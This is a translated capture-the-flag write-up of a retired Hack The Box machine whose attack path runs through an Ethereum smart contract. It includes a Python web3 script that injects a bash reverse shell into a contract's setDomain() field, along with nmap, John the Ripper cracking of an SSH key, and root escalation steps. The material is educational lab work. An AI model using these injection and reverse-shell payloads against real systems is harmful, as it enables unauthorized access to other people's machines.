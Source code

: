 # 危及区块链

> 原文：<https://medium.com/coinmonks/understanding-learning-and-owning-of-a-blockchain-machine-4804780b9044?source=collection_archive---------0----------------------->

读者们好，在这篇文章中，我只想分享我在一台名为电锯的机器周围工作的经历。我对网络安全一无所知，所以开始做一些黑客盒子的东西来学习。任何像我一样想学习网络安全的新手都可以在 youtube 上观看`ippsec`(帮助很大)、网络导师和黑客 ploit 的视频。我 11 月下旬解决的花了很多时间才解决(将近一周！)我个人很喜欢这台机器，无法摆脱它，我想它大约 10 天前就退役了。机器处理[实性](https://medium.com/coinmonks/solidity/home)，[以太坊](https://medium.com/coinmonks/ethereum/home) [区块链](https://medium.com/coinmonks/blockchain/home)， [IPFS](https://medium.com/coinmonks/ipfs/home) 栈以及更多与[以太坊](https://medium.com/coinmonks/ethereum/home)相关的概念。我会尽可能把这些概念和黑客联系起来。在我的学士学位期间，我致力于[以太坊](https://medium.com/coinmonks/ethereum/home)的开发，从而增加了探索和尝试扎根这台机器的兴趣。在我们开始之前，我觉得你最好了解一下[以太坊](https://medium.com/coinmonks/ethereum/home)区块链、[稳健](https://medium.com/coinmonks/solidity/home)智能合约和 [IPFS](https://medium.com/coinmonks/ipfs/home) 堆栈。

那么，我们开始吧。

我们使用 NMAP 默认扫描'`nmap -sC -sV -sT 10.10.10.142`'运行网络扫描。我们得到:

```
Nmap scan report for 10.10.10.142
Host is up (1.2s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: **Anonymous FTP** **login allowed** (FTP code 230)
| -rw-r--r--    1 1001     1001        23828 Dec 05  2018 WeaponizedPing.json
| -rw-r--r--    1 1001     1001          243 Dec 12  2018 WeaponizedPing.sol
|_-rw-r--r--    1 1001     1001           44 Nov 22 05:03 address.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.xx.xx
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 02:dd:8a:5d:3c:78:d4:41:ff:bb:27:39:c1:a2:4f:eb (RSA)
|   256 3d:71:ff:d7:29:d5:d4:b2:a6:4f:9d:eb:91:1b:70:9f (ECDSA)
|_  256 7e:02:da:db:29:f9:d2:04:63:df:fc:91:fd:a2:5a:f2 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 352.33 seconds
```

然后我运行了所有端口扫描:

```
Prakashs-MacBook-Air:~ prakashashok$ nmap -p- 10.10.10.142 Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-22 19:08 EET
Nmap scan report for chainsaw.htb (10.10.10.142)
Host is up (2.8s latency).
Not shown: 37555 closed ports, 27977 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
9810/tcp open  unknown
```

所以我们启用了 ftp 匿名访问。然后我们登录 FTP，使用`mget *`命令将所有文件下载到我们的本地机器上。当我们查看文件时，我们看到一个“`.sol`”扩展名，这告诉我这是一个 [solidity](https://medium.com/coinmonks/solidity/home) 代码，所以我的自然猜测是这是一个具有某种目的的智能合同。address.txt 似乎是智能合约哈希地址。此外，还存在一个未知端口。我猜可能有一个聪明的合同在那个港口运行。

所以一个**智能** **契约**简单来说就是一个在以太网中为进行 transfer()、get_name()等交易而定义的函数的使用协议。智能合同允许你以透明的方式交换任何有价值的东西，包括金钱、股票、财产等，而不需要像管理员这样的中间人。可以把它想象成在[区块链](https://medium.com/coinmonks/blockchain/home)上执行交易时要遵循的一套规则。

(更多信息请点击[这里](https://solidity.readthedocs.io/en/v0.4.24/introduction-to-smart-contracts.html, https://blockgeeks.com/guides/smart-contracts/)

现在我们来看看 [solidity](https://medium.com/coinmonks/solidity/home) 代码(为了方便查看代码，我使用了 remix ide)和我们拥有的 JSON 文件。

![](img/c1374f5cbcfebab9c5af89099d2af5bf.png)

(WeaponizedPing.sol)

注意，所有的函数都是可公开调用的，因为它们的访问说明符(私有的、公共的和受保护的在编程中被称为访问说明符)被赋值为 public。现在，我们有可能将 store variables 值设置为我们的 IP 地址，而不是函数 setDomain()中的 google.com。solidity 中的 PT 修饰符/函数修饰符(或带下划线的变量)可以用来改变函数的性质。下划线 _ 决定了在哪里执行原始函数。因此，通过在我们的机器上执行它，很有可能得到一个反向 shell。

(WeaponizedPing.json)

由于代码是可靠的，我猜测 JSON 文件是部署的执行细节，是我们以 JSON 形式获得的智能契约的 **ABI** 。当我们执行一个智能合同时，我们得到一个已部署合同的 ABI。ABI 代表应用程序二进制接口。它是一个告诉软件(通常是 Web3.js 或 EtherJS 这样的 JavaScript 库)如何与智能合约交互的数组。(更多内容:[此处](https://ethereum.stackexchange.com/questions/234/what-is-an-abi-and-why-is-it-needed-to-interact-with-contracts))。你可以通过在 REMIX IDE(一个 solidity 编译器)中粘贴 solidity Ethereum [这里](https://remix.ethereum.org/)的代码来检查一个样本契约或我们的 WeaponizedPing.sol 的流程。

现在，为了与以太坊[区块链](https://medium.com/coinmonks/blockchain/home)交互，我们需要任何编程语言的 Web3 接口，如 python、node.js 等，以及我们机器上的 netcat 监听器来监听。我查看了 Web3 python 文档和一些视频来检查一些代码。下面是使用 python 的 Web3 接口进行命令注入并获得连接的代码:

```
from web3 import Web3, HTTPProviderimport jsoncontract_address = ‘0x1cEe22E053c7F4E14D85fC51a5E4a7B58667Cd44’contract_data = json.loads(open(“WeaponizedPing.json”, “r”).read())abi =  contract_data[‘abi’]w3 = Web3(HTTPProvider(‘[http://10.10.10.142:9810’](http://10.10.10.xn--142:9810-jp3d)))w3.eth.accounts[1]‘0x272661A72Cecb0883C6843FCE00fla8815f’w3.eth.defaultAccount = w3.eth.Accounts[1]contract = w3.eth.contract(abi=abi, address=contract_address)contract.functions.getDomain().call()‘[google.com](http://google.com)’contract.functions.setDomain(“10.10.14.236; bash -c ‘bash -i >&  /dev/tcp/10.10.14.236/9001 0>&1’”).transact()
```

![](img/0a0324fc462771322df9fa7f0ae7ae8f.png)

现在我遍历了目录和文件。我发现加纳切和 [IPFS](https://medium.com/coinmonks/ipfs/home) 要安装了。Ganache 是一个框架，用于开发、部署智能合同并在个性化的[以太坊](https://medium.com/coinmonks/ethereum/home)上测试[可靠性](https://medium.com/coinmonks/solidity/home)合同，比如 chain 和 [IPFS](https://medium.com/coinmonks/ipfs/home) 就像一个分散的数据库，存储在基于[以太坊](https://medium.com/coinmonks/ethereum/home)的[区块链](https://medium.com/coinmonks/blockchain/home)上发生的交易。IPFS 使用 Merkle 链接将文件结构相互链接，每个文件都可以通过人类可读的名称找到，使用的是一种叫做 IPNS 的分散命名系统。

(更多关于它的[这里](https://www.trufflesuite.com/docs/ganache/overview, https://docs.ipfs.io/reference/api/cli/))。

从管理员那里，我们想要访问用户 Bobby，因为我们没有他的访问权限，我们对文件夹中与用户 Bobby 相关的任何内容都感兴趣。**在。/ipfs 文件夹运行命令 ipfs 引用本地**获取我们在[区块链](https://medium.com/coinmonks/blockchain/home)实例上的事务的本地引用:

![](img/d21b3a37e94344c015a82071d7ca1c4f.png)

在图中，我们看到所有的事务都存储在 IPFS T21 堆栈中。因为我们对 bobby 用户感兴趣，所以我们寻找他存储的事务的散列名称来查看它的细节(简单地做[IPFS](https://medium.com/coinmonks/ipfs/home)refs local | grep“bobby”)。这样做时，我们会收到一封与 Bobby 相关的电子邮件，这是一封带有 base64 编码的对话的质子邮件，其中包含一个名为 **bobby.key** 的文件，这是一个 RSA 私钥。

![](img/1edeb17b4376cc7709892edd516ca417.png)

现在花了几天时间到这里，然后发生了这种情况。我不知道如何破解 RSA 密钥，但是我的同事 [Vijith](https://twitter.com/vijithvellora)) 帮助我破解了 RSA 密钥，并且很大程度上帮助我 SSH 到 Bobby 的实例中进行升级。我们用开膛手约翰来破解它，并在 youtube 上查看了 ippsec 的视频以寻求帮助。我们用 [**sshng2john**](https://github.com/truongkma/ctf-tools/blob/master/John/run/sshng2john.py) **破解了 RSA 密钥。**

```
john --wordlist=/usr/share/wordlists/rockyou.txt bobby.key.john
```

![](img/63bfd90e21899b9b371b47d17048a03e.png)

现在我们可以进入 bobby 了:

```
ssh -i bobby.key@10.10.10.142.
```

我们在执行 ls 命令时获得用户标志。我们有一些目录，即项目和资源。然后，我们寻找一个文件，该文件有一个实例将我们连接到主网络的根目录。在项目文件夹中，我们找到了 ChainsawClub 二进制文件，在执行它时，我们会得到如下登录信息:

![](img/86093709f533a7c6376c656668415935.png)

现在在同一个目录中(即/projects/Chainsaw)，我们有 Chainsaw.sol 和 Chainsaw.json。这就像是从开始的 [solidity](https://medium.com/coinmonks/solidity/home) 代码开始的似曾相识的感觉。我们查看代码，我回到混合 IDE 并检查代码。

![](img/5b3f644330eff7b082109497b944d6e4.png)

所以再次浏览代码告诉我，我可以创建并调用 setUsername 和 setPassword 来登录 ChainsawClub 主网络。我创建了用户名(用户，试用)和密码(用户，试用)并尝试登录，正如预期的那样，它成功了，我们是根用户。

![](img/a3c974c152b28ae62ae58003c0f55d26.png)

为了得到`R00T`标志，我们在`sbin`目录中做了`ls`并四处浏览以了解一些正在使用的工具和已经安装的`bmap`。在谷歌上，我了解到 Bmap 是关于隐藏在 Unix 环境中的文件内容。于是运行命令:`bmap - - mode slack root.txt`授旗。

我从机器中得到的收获是:

1.  FTP 匿名访问是导致访问 [solidity](https://medium.com/coinmonks/solidity/home) 代码和地址的第一个 bug。
2.  机器在 solidity 契约中向我解释了糟糕的编码实践，它将 public 指定为某些函数的访问说明符，如果这是一个私有[以太坊](https://medium.com/coinmonks/ethereum/home)网络，这些函数就不应该被未认证的用户调用。

总而言之，这是我的第三台机器，我非常喜欢它，尽管它花了很多时间和时间来解决问题，并做了一个全面的记录:}

> [在您的收件箱中直接获得最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)

[![](img/7c0b3dfdcbfea594cc0ae7d4f9bf6fcb.png)](https://coincodecap.com/?utm_source=coinmonks)[![](img/673b3528e0b341cca62769c9baa632cd.png)](https://coincodecap.com)